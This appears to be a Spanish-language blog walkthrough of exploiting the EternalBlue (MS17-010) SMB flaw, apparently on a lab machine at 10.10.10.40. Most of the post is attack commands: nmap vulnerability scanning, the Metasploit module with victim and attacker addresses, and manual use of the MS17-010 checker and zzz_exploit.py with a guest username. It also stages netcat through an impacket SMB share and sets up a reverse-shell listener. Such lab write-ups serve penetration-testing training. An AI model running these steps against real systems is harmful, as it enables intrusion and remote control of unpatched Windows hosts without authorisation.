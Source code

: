 ```yaml
---
title: "Eternal Blue"
author: Tuch0
date: 2023-09-17
categories: [Vectores-de-Ataque]
tags: [eternal_blue, MetasPloit]
image:
    path: assets/Miniaturas/VectoresDeAtaque/eternalBlue.jpg
    width: 800
    height: 500
---
```


```bash
# Miramos las categorias de nmap
locate .nse | xargs grep "caqtegories" | grep -oP '".*?"' --colour | sort -u

# Hacemos un escaneo de dos categorias en concreto
nmap -script "vuln and safe" -p445 10.10.10.40 -oN smbVulnScan
```

### Metasploit

![](../../assets/VectoresDeAtaque/Eternal-Blue/1.jpg)

```bash
# Buscamos la vulnerabilidad
search eternal blue

# Seleccionamos el modulo
use 0

# Miramos las opciones
options

# Rellenamos las opciones con SET
set RHOST <ip_víctima>
set RPORT 445
set LHOST <ip_atacante>
set LPORT <ip_escucha>

# Ejecutamos el exploit
run
```

![](../../assets/VectoresDeAtaque/Eternal-Blue/2.jpg)



### Manual

#### Checker.py

```bash
# Descargamos recursos
git clone https://github.com/worawit/MS17-010

# Entramos en el recurso
cd MS17-010

# Primero usamos el checker para validar la explotación
python2 checker.py <RHOST> # ->> Deberia de poner en los pipes algun OK , pero si no funciona , cambia esto:

# Si no te detecta los named pipes , edita el exploit
nvim checker.py
USERNAME = 'guest'

# Lo volvemos a ejecutar
python2 checker.py <RHOST>
```

#### zzz_exploit.py

```bash
# Editamos el escript 
nvim zzz_exploit.py
USERNAME = 'guest'
```

![](../../assets/VectoresDeAtaque/Eternal-Blue/3.jpg)



```bash
# Descargamos el binario de NC para win
https://eternallybored.org/misc/netcat

# Descomprimes el archivo
7z x netcat -d netcat
cd netcat
cp nc64.exe ../scripts
cd ../scripts
mv nc64.exe nc.exe

# Creamos una carpeta compartida con impacket-smbserver
impacket-smbserver smbFolder $(pwd) -smb2support

# Nos ponemos en escucha por netcat
rlwrap nc -lvnp 443

# Iniciamos el exploit
python3 zzz_exploit.py <RHOST> [pipe_name]
```

